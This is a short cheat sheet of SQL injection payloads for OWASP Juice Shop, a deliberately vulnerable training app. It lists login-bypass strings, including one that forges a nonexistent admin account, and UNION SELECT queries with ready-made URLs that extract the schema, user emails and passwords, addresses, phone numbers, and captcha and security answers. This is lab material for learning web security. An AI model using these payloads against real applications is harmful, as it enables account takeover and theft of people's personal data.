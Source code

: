 # Logging In

All following statements to be pasted into the 'username' field in the login form, with any arbitrary password.

**Basic SQL Injection for logging in as the first user in the database**

`' OR 1=1;--`

**Log in as a user with an email similar to 'jim'**

`' OR 1=1 AND email LIKE('%jim%');--`

**Log in as a user that does not exist in the database**

`' UNION SELECT * FROM (SELECT 200 as 'id', 'chad' as 'username', 'chadd@juice-sh.op' as 'email', 'chadd' as 'password', 'admin' as 'role', '' as 'deluxeToken' , '1.3.3.7' as 'lastLoginIp' , 'assets/public/images/uploads/default.svg' as 'profileImage', '' as 'totpSecret', 1 as 'isActive', '1999-08-16 14:14:41.644 +00:00' as 'createdAt', '1999-08-16 14:33:41.930 +00:00' as 'updatedAt', null as 'deletedAt')--`

# Data Exfiltration

## Stealing the Schema

SQL Statement:

`qwert')) UNION SELECT sql, '2', '3', '4', '5', '6', '7', '8', '9' FROM sqlite_master--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20sql,%20%272%27,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20sqlite_master--

## Stealing emails and passwords

SQL Statement:

`qwert')) UNION SELECT email, password, '3', '4', '5', '6', '7', '8', '9' FROM Users--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20email,%20password,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Users--

## Stealing names, addresses, and mobile numbers

SQL Statement:

`qwert')) UNION SELECT fullName, streetAddress, city, country, mobileNum, '6', '7', '8', '9' FROM Addresses--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20fullName,%20streetAddress,%20%27city%27,%20%27country%27,%20%27mobileNum%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Addresses--

## Stealing captcha questions and answers

SQL Statement:

`qwert')) UNION SELECT captcha, answer, '3', '4', '5', '6', '7', '8', '9' FROM Captchas--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20captcha,%20answer,%20%273%27,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20Captchas--

## Stealing security questions and answers

SQL Statement:

`qwert')) UNION SELECT q.question, a.answer, a.UserID, '4', '5', '6', '7', '8', '9' FROM SecurityQuestions q INNER JOIN SecurityAnswers a ON q.id = a.id--`

Test it at the following URL:

https://juice-shop.herokuapp.com/rest/products/search?q=qwert%27))%20UNION%20SELECT%20q.question,%20a.answer,%20a.UserID,%20%274%27,%20%275%27,%20%276%27,%20%277%27,%20%278%27,%20%279%27%20FROM%20SecurityQuestions%20q%20INNER%20JOIN%20SecurityAnswers%20a%20ON%20q.id%20=%20a.id--